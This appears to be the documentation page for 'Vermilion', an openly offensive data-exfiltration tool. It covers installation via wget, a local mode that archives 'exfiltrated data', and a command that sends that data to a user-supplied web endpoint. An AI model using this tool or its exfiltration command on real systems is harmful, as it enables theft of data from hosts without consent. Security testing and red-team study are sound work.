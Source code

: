 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.5.0/vermilion_0.5.0_linux_amd64.tar.gz
tar -xzf vermilion_0.5.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


